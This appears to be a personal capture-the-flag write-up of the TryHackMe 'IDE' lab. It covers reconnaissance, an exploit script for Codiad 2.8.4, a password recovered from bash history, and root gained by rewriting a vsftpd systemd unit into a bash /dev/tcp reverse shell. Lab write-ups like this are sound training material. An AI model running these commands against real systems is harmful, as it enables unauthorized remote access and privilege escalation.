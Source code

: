```yaml
---
title: "IDE"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```

<img src="ide.png" width=200 height=200 alt="ide">

## Enmeration

### nmap

```
Discovered open port 21/tcp on 10.10.6.68
Discovered open port 80/tcp on 10.10.6.68
Discovered open port 22/tcp on 10.10.6.68
Discovered open port 62337/tcp on 10.10.6.68

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC94RvPaQ09Xx+jMj32opOMbghuvx4OeBVLc+/4Hascmrtsa+SMtQGSY7b+eyW8Zymxi94rGBIN2ydPxy3XXGtkaCdQluOEw5CqSdb/qyeH+L/1PwIhLrr+jzUoUzmQil+oUOpVMOkcW7a00BMSxMCij0HdhlVDNkWvPdGxKBviBDEKZAH0hJEfexz3Tm65cmBpMe7WCPiJGTvoU9weXUnO3+41Ig8qF7kNNfbHjTgS0+XTnDXk03nZwIIwdvP8dZ8lZHdooM8J9u0Zecu4OvPiC4XBzPYNs+6ntLziKlRMgQls0e3yMOaAuKfGYHJKwu4AcluJ/+g90Hr0UqmYLHEV
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBzKTu7YDGKubQ4ADeCztKu0LL5RtBXnjgjE07e3Go/GbZB2vAP2J9OEQH/PwlssyImSnS3myib+gPdQx54lqZU=
|   256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ+oGPm8ZVYNUtX4r3Fpmcj9T9F2SjcRg4ansmeGR3cP
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel



PORT      STATE SERVICE REASON  VERSION
62337/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: B4A327D2242C42CF2EE89C623279665F
|_http-title: Codiad 2.8.4
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

### ffuf

```
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
components              [Status: 301, Size: 322, Words: 20, Lines: 10]
data                    [Status: 301, Size: 316, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.php               [Status: 200, Size: 5239, Words: 1739, Lines: 87]
js                      [Status: 301, Size: 314, Words: 20, Lines: 10]
languages               [Status: 301, Size: 321, Words: 20, Lines: 10]
lib                     [Status: 301, Size: 315, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 319, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 318, Words: 20, Lines: 10]
```

The room said enumeration is important so we took that personally.

full nmap scan or you miss the main thing...the real website is on port 62337

But first lets grab whatever is in ftp folder

At first I thought ftp folder was empty...the subfolder was named `...`

cd into it and find a file named `-`

```
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```

nmap says the actual website use codiad 2.8.4

As we dont know what that is we google but found its a web ide

And there is an RCE vulnerability with exploitdb script

random passwords trials got us in the web ide (I was about to bruteforce with hydra lol)

`john : password`

As we can login we see the code john was workig on but nothing useful in it

let's use the exploit db python script to get inside

`python exploit.py http://10.10.172.231:62337/ john password 10.8.226.203 2311 linux`

And we are in

first we get comfortable

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

```
www-data@ide:/home$ cd drac
cd drac
www-data@ide:/home/drac$ ls
ls
user.txt
www-data@ide:/home/drac$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```

I am not even surprised

```
ls -al
total 52
drwxr-xr-x 6 drac drac 4096 Aug 4 07:06 .
drwxr-xr-x 3 root root 4096 Jun 17 14:01 ..
-rw------- 1 drac drac 49 Jun 18 06:02 .Xauthority
-rw-r--r-- 1 drac drac 36 Jul 11 12:11 .bash_history
-rw-r--r-- 1 drac drac 220 Apr 4 2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11 11:53 .bashrc
drwx------ 4 drac drac 4096 Jun 18 06:03 .cache
drwxr-x--- 3 drac drac 4096 Jun 18 06:47 .config
drwx------ 4 drac drac 4096 Jun 18 06:48 .gnupg
drwx------ 3 drac drac 4096 Jun 18 05:49 .local
-rw-r--r-- 1 drac drac 807 Apr 4 2018 .profile
-rw-r--r-- 1 drac drac 0 Jun 17 14:03 .sudo_as_admin_successful
-rw------- 1 drac drac 557 Jun 18 05:49 .xsession-errors
-r-------- 1 drac drac 33 Jun 18 06:32 user.txt
```

ok drac only can read the flag but anyone can read his bash history...lol

that thing is supposed to go to void (/dev/null)

```
cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'

www-data@ide:/home/drac$ su drac
su drac
Password: Th3dRaCULa1sR3aL
```

`drac@ide:~$ cat user.txt`

And we got User Flag

Now privileges

## privilege escalation

```
sudo -l

Matching Defaults entries for drac on ide:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
(ALL : ALL) /usr/sbin/service vsftpd restart
```

The ftp service? hmm? I dont know

```
locate vsftpd.service
/etc/systemd/system/multi-user.target.wants/vsftpd.service

cd /etc/systemd/system/multi-user.target.wants

cat vsftpd.service

[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

Alright let's change the `ExecStart` to a reverse shell

```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.226.203/4444 0>&1'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

We echo all that in `vsftpd.service` and listen with a new netcat on said port

Now we restart the service..reload daemon first

```
systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: Th3dRaCULa1sR3aL

==== AUTHENTICATION COMPLETE ===
```

```
drac@ide:/etc/systemd/system/multi-user.target.wants$ sudo /usr/sbin/service vsftpd restart
```

Aaand...NOTHING

I don't know why but I had to do the restart twice

```
root@ide:/# id
id
uid=0(root) gid=0(root) groups=0(root)

cat root.txt
```

Great room! Get some more!
